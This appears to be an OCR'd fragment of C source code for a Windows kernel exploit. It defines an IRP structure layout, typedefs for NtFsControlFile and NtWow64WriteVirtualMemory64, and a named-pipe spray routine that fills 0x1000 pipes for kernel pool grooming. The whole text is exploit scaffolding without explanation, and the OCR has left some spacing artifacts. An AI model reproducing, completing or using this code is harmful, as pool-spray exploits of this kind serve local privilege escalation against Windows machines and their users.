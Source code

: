 ```

  PVOID64 AssociatedIrp;
  LIST_ENTRY64 ThreadListEntry;

  union {
    NTSTATUS Status;
    PVOID64 Pointer;
  }
  IoStatus;
  PVOID64 Information;

  CHAR RequestorMode;
  BOOLEAN PendingReturned;
  CHAR StackCount;
  CHAR CurrentLocation;
  BOOLEAN Cancel;
  UCHAR CancelIrql;
  CCHAR ApcEnvironment;
  UCHAR AllocationFlags;

  PVOID64 UserIosb;
  PVOID64 UserEvent;
  char Overlay[16];
  PVOID64 CancelRoutine;
  PVOID64 UserBuffer;
  CHAR TailIsWrong;
}
IRP;
#pragma pack(pop)

typedef void(IO_APC_ROUTINE)(  void * ApcContext,  IO_STATUS_BLOCK * IoStatusBlock,  unsigned long reserved);

typedef int(__stdcall * NTFSCONTROLFILE)(  HANDLE fileHandle,  HANDLE event,  IO_APC_ROUTINE * apcRoutine,  void * ApcContext,  IO_STATUS_BLOCK * ioStatusBlock,  unsigned long FsControlCode,  void * InputBuffer,  unsigned long InputBufferLength,  void * OutputBuffer,  unsigned long OutputBufferLength);

typedef NTSTATUS( * pNtWow64WriteVirtualMemory64)(  HANDLE ProcessHandle,  unsigned __int64 BaseAddress,  void * Buffer,  unsigned __int64 Size,  unsigned __int64 * NumberOfBytesWritten);

typedef struct {
  HANDLE r;
  HANDLE w;
}
PIPE_HANDLES;

#define PIPESIZE 0x1000
PIPE_HANDLES pipes[PIPESIZE];
PIPE_HANDLES holder;

void CreateSprayPipe(PIPE_HANDLES * ph, DWORD quota = -1) {
  ph -> w = CreateNamedPipe(
    L "\\\\.\\pipe\\exploit_test",
    PIPE_ACCESS_OUTBOUND | FILE_FLAG_OVERLAPPED,
    PIPE_TYPE_BYTE | PIPE_WAIT,
    PIPE_UNLIMITED_INSTANCES,
    quota,
    quota,
    0,
    0);
  ph -> r = CreateFile(L "\\\\.\\pipe\\exploit_test", GENERIC_READ, 0, NULL, OPEN_EXISTING, 0, 0);
}
```